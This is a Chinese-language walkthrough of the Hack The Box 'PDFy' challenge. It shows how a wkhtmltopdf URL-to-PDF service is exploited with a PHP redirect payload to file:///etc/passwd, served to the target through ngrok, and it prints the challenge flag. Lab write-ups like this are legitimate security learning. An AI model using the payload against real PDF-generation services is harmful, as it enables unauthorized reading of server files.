







# [easy] PDFy   
 --- 
[Hack The Box](https://app.hackthebox.com/challenges/PDFy)    
 --- 
一開始先嘗試了幾個url   
- [https://google.com](https://google.com) → 成功   
- machine URL→ 沒東西   
- 隨便一個網站的URL → 成功   
    
   
Google `WKHTMLTOPDF vulnerability` 和 `WKHTMLTOPDF 漏洞` 找到以下三個有幫助的文章   
    
1. [wkhtmltopdf File Inclusion Vulnerability - Virtue Security](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/)    
2. [wkhtmltopdf SSRF \| Exploit Notes](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)    
3. [中央大學eeclass系統 from harmless IDOR and information leakage to SSRF to LFI](https://zeroday.hitcon.org/vulnerability/ZD-2021-00781)    
   
這一步卡很久，因為我到後來才發現如果要insert PHP code，檔案要存為php檔而不是html   
```
<!DOCTYPE html>
<html>
	<head>
		<?php header('location:file:///etc/passwd') ?>
	</head>
	<body>
	</body>
</html>
```
我一直沒辦法注入php code，後來才發現是檔案類型錯誤，code變成comment了   
    
   
再來就是把local run起來的server，透過ngrok讓外網可以連上   
這裡的tips是用tcp protocol而不是http，在討論區看到有人提示用tcp就不會像http一樣被redirect干擾   
    
   
用http protocol之後直接搜尋URL，會發現因為有一個redirect頁面，所以web轉pdf的時候php code不會被觸發   
    
    
   
Ngrok轉接好之後，直接在machine上面的搜尋欄位查詢我們架好的php網站就可以了   
`http://0.tcp.jp.ngrok.io:15455/test.php`    
    
```
# FLAG
HTB{pdF_g3n3r4t1on_g03s_brrr!}
```
   
